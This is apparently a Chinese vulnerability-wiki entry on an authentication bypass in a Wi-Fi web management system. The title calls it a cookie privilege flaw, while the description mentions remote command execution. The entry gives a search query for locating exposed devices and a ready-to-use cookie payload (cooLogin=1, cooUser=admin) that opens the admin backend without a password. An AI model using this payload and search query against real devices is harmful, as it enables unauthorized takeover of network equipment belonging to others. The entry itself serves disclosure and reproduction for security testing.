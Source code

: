 # 西迪特 Wi-Fi Web管理 Cookie 越权访问漏洞

## 漏洞描述

西迪特 Wi-Fi Web管理系统后台过滤不足导致远程命令执行漏洞

## 漏洞影响

<a-checkbox checked>西迪特 Wi-Fi Web管理</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title=="Wi-Fi Web管理"</a-checkbox></br>

## 漏洞复现o

登录页面

![img](/assets/PeiQi-Wiki/img/1629371298672-1ceeafe8-ba9c-42c5-b873-3dfabdd0305a.png)

添加Cookie，即可登录后台

```bash
Cookie: timestamp=0; cooLogin=1; cooUser=admin
```

![img](/assets/PeiQi-Wiki/img/1629371805870-5f6a3a10-7c92-481c-97fe-46886dd474b6.png)

